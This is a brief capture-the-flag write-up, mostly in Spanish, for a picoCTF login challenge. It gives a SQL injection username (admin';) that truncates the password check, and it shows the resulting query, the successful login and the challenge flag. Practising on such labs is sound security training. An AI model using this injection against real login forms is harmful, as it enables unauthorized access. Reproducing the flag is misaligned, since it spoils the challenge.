 ## Objetivo
`https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849
## Solución
```bash
admin';
psw:hola
 picoCTF{m0R3_SQL_plz_fa983901}
 ---
 username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
```
## Notas
Solamente tenemos que hacer una cadena en el usuario de logeo de la forma admin'; ya que e suna inyeccion que ignora la parte derecha de la consulta